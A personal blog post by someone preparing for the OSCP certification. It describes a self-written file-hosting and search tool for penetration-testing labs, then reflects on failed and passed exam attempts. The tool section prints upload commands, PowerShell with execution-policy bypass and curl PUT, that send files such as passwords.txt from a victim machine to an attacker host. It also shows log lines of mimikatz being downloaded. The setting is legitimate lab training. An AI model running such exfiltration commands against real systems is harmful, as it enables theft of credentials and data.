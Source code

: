 ```yaml
---
title: "Writing Tools and Learning"
date: 2025-01-19
---
```


## Intro

When I started my career in security, getting the OSCP certification was one of my first goals. Unfortunately, I failed my first attempt. A bit over four years later, I retook the exam and passed. The journey between attempts was not as linear as I had imagined and it has taken me some time to finally write out some of my thoughts on the process.

Before reflecting, I want to share a simple tool I wrote to help me during the exam. I understand that this is a small, personal, and sporadic blog, but I think of it as a way to look back on my previous lines of thinking. Additionally, if something here helps even just one person on a similar journey, that would be a great accomplishment for me. 

## Transferring Files

Throughout the OSCP curriculum, a recurring scenario is the need to transfer files between machines. This could be for initial foothold payloads, privilege escalation scripts, and exfiltrating documents for analysis (or dumping secrets!). Offsec's learning materials show a few different ways to accomplish this task through SMB, FTP, or HTTP. There are also many other ways to accomplish this task. While reading a post on The DFIR Report ([here](https://thedfirreport.com/2024/10/28/inside-the-open-directory-of-the-you-dun-threat-group/)) describing a threat actor's open directory, I realized how much easier it would be to have an always-on http server to pull tooling from when needed. Also, it is important to avoid fiddling around and learning new tooling during a certification exam when time is a resource and also a source of anxiety.

Like many others, I initially started out using Python's built-in http server module. However, I continuously found that I needed to upload files from victim machines to the attack machine. I started using [goshs](https://github.com/patrickhener/goshs), (which is an amazing tool and has now been added to the kali repos,) but I wanted an easy way to upload files straight from a command line. (I believe this is possible since there is a GUI for uploads but I did not look too deep into this.) Also, after a few months of grinding machines on Vulnhub and Proving Grounds, I had accumulated a long list of scripts and tools for pentesting that became a pain to look through every time I needed something. My idea was to write a  command line tool to search through my folder of tools and spit out a command to run on a victim machine. It is definitely possible that someone has already solved this problem but I figured I should get some scripting exercise in and build something from the ground up. 

# What it does

Github: [hosting](https://github.com/ky2303/hosting)

Since you are usually on Offsec's VPN when doing the labs or exam, the script uses the IP address of `tun0` and the default port 8000 from Python's module. This can be changed with arguments. There are four commands to use in the tool: download, logs, search, upload. They all have single letter aliases (d, l, s, u). While testing and writing the tool, I ended up integrating of the `download` functionality into the `search` function. As a result, I almost never use the `download` function and will most likely remove it going forward.

Demo:

```bash
$ python3 hosting.py -p 80
VPN: ON
IP : 192.168.61.128
HTTP server started at http://localhost:80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
Welcome to the file search CLI. Type help or ? to list commands.
>> 
```

![search]({{ "../assets/2025-01-19-writing-tools/search.png" | relative_url }})

![download]({{ "../assets/2025-01-19-writing-tools/download.png" | relative_url }})


# Commands

**Logs:** Since the tool runs the HTTP server and CLI modules together, output became a bit messy, so I decided to log everything from the server module to a file. This file can be shown by using `logs`. It will display the last 5 lines in the log file unless given an integer as an argument. The log file is deleted when exiting the CLI unless the `-l` argument is set to `True` when starting.

```bash
>> logs
2025-01-19 11:25:23,239 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
2025-01-19 11:26:42,177 - "GET /mimikatz/x64/mimikatz.exe HTTP/1.1" 200 -
```

**Search:** This function searches the hosted directory for a filename given as an argument. If a match is found, it shows both linux and windows commands to download the file, making it easy to copy/paste commands. This was the main usecase I had in mind for this tool and I think it came out great. I use it a lot.


**Upload:** Continuing with the theme of easy copy/pasting, this function just spits out linux and windows commands to upload files to the machine where this script is hosted. The http server class had to be extended a bit to add this functionality, but someone had already solved this problem so I copied [their code](https://gist.github.com/darkr4y/761d7536100d2124f5d0db36d4890109) for this part. I did run into some issues with files that were too large. (See Future.)

```bash
>> uploads passwords.txt
[*] Win upload command:
powershell -ep bypass -c "(New-Object Net.WebClient).UploadFile('http://192.168.61.128:80/passwords.txt', 'PUT', 'passwords.txt');"
[*] Linux upload commands:
curl -X PUT -T "passwords.txt" "http://192.168.61.128:80/passwords.txt"
```

# Future 

I recently came across a talk given by Tom Hudson that I enjoyed. I first heard of Tom (aka Tomnomnom) while listening to the Critical Thinking Bug Bounty podcast with Justin Gardner (aka rhynorater). In the talk, Tom shares a few great points about writing tools. I think Tom's idea of making simple tools that do one thing well is great and plan to continue iterating with this in mind.

The talk can be found here:

[Confessions of a Toolmaker - Tom Hudson](https://www.youtube.com/watch?v=lFBAo9TKRY8)

I also would like to fix the issue with larger files when sending PUT requests. I did not look into this closely but when I came across the problem, I used the `download` function in Evil-WinRM on windows machines or `scp` on linux. 


## Reflections

Back to my thoughts on the certification process. After failing my first exam attempt, I realized that I was way too overconfident. I had crested the initial peak of the Dunning-Kruger curve.

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger.png" | relative_url }}){:style="margin-left:auto; margin-right:auto"}

As I took a step back, I realized how many fundamental concepts I did not fully grasp. I did not give the labs as much time and thought as I should have and I quickly skimmed through the PDF that OffSec gives you. While this approach may have worked in the tests I took in former academic environments, it was inadequate for a practical exam in a simulated environment. Unfortunately, I needed a job so I decided to shelf the idea of getting the OSCP and hammered out some entry-level CompTIA certs to get past the HR filters. 

Fast-forward to mid-2024, I had been comfortably working in a security role for about two years, participated in a few more CTFs, and completed almost every list of OSCP-like machines on Vulnhub that I could find. I decided to get the Learn-One subscription to OffSec which comes with the OSCP curriculum, access to a lot more practice machines, and two exam attempts. I scheduled my exam for September and started studying. 

Then, at the end of August, OffSec announced that they were changing the exam again to an "assumed compromise"-type exam, removing the bonus points for doing labs, and creating an "OSCP+" certification that expires every 3 years. This was about three weeks before my scheduled exam date, but it would not take effect until November. I thought about what to do for a few days but ultimately decided that since the original certification did not expire and I had already put many hours into doing the labs to get bonus points, it was best to stick to my original plan and take the exam in September. Thankfully, I passed and the bonus points helped. 

I now had the decision on whether I should use my second exam attempt on the wireless pentesting exam (OWSP) or try the OSCP+. Around this time, I realized that the pressure and anxiety that I put on myself to pass the exam had caused some health issues so I decided to take a little break from studying. After about a month of rest, I started doing Proving Grounds machines on OffSec again and decided to attempt the OSCP+ right after the holidays. What a terrible idea.

Unfortunately, I did not pass the OSCP+ exam. In the few days after, I was devastated and thought less of myself, constantly going over different enumeration methods and attacks I may have missed in my head. The feeling of failure after my first attempt returned, and I felt that I had crested another peak in another Dunning-Kruger curve. This is when I realized my own curve looked something like this:

![dunning_kreuger]({{ "../assets/2025-01-19-writing-tools/dunning-kreuger-modified.png" | relative_url }}){:style="margin-left:auto; margin-right:auto"}

(Apoloigies for the quality. Graphic design is not my passion)

After some time and reflection, I figured that I had accomplished the original goal I set for myself when I first started out this journey. Even with the failures, I learned new things -- in security and about myself -- that made the input time valuable. Two things have helped me cope with low times for me career-wise. First, after the Denver Nuggets won their first NBA championship in franchise history in 2023, center Nikola Jokic had one of my favorite recent quotes:

![jokic]({{ "../assets/2025-01-19-writing-tools/jokic.jpg" | relative_url }}){:style="width:600px"}

Secondly, a practical exercise that I recently started. Another podcast I enjoy is "My First Million" with Sam Parr and Shaan Puri. In a recent episode, Puri talks about a personal Slack channel he has called "Highs and Lows". In this channel, he writes down the most emotional moments while running his businesses. When an extreme event happens, whether good or bad, Puri will write down the event in the channel, overtime creating a log of times to look back on and see how far you have come. I have started to do this in my own way by writing down these types of events for my own career (though not in a Slack channel). Doing this has been helpful, and my hope is that in the long-term it will help me smooth out my own modified Dunning-Kruger curve above, balancing emotions with confidence and competence. The last mention of Puri's "Highs and Lows" channel is at the 46:29 mark here: [MFM youtube](https://youtu.be/8yIrBHghAJE?si=XtSmc9IEeMfq-jTA&t=2789)
